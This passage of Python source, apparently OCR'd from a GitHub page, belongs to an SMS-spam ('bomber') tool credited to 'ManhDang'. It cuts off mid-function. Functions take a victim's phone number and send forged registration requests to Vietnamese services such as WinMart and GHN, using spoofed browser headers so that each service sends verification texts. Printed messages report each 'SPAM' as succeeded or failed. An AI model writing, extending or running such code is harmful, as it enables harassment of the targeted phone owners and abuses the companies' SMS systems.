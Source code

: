     if response ['Code'] == 200:
        print(f'[BY: ManhDang] ~ \033[1;35m FMPLUS SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDang] ~ \033[1;35m FMPLUS SPAM THẤT BẠI')

def winmart(sdt):
    headers = {
        'authority': 'api-crownx.winmart.vn',
        'accept': 'application/json',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'authorization': 'Bearer undefined',
        'content-type': 'application/json',
        'origin': 'https://winmart.vn',
        'referer': 'https://winmart.vn/',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-site',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
        'x-api-merchant': 'WCM',
    }
    json_data = {
        'firstName': 'Chi mum',
        'phoneNumber': sdt,
        'masanReferralCode': '',
        'dobDate': '2006-03-24',
        'gender': 'Male',
    }
    response = requests.post('https://api-crownx.winmart.vn/iam/api/v1/user/register', headers=headers, json=json_data).json()
    try:
        if response ['code'] == 'S200':
            print(f'[BY: ManhDang] ~ \033[1;35m WINMART SPAM THÀNH CÔNG')
        else:
            print(f'[BY: ManhDang] ~ \033[1;35m WINMART SPAM THẤT BẠI')
    except:
        print(f'[BY: ManhDnag] ~ \033[1;35m WINMART SPAM THẤT BẠI')

def gateway(sdt):
    headers = {
        'authority': 'online-gateway.ghn.vn',
        'accept': 'application/json, text/plain, */*',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'content-type': 'application/json',
        'origin': 'https://sso.ghn.vn',
        'referer': 'https://sso.ghn.vn/',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-site',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
    }
    json_data = {
        'phone': sdt,
        'type': 'register',
    }
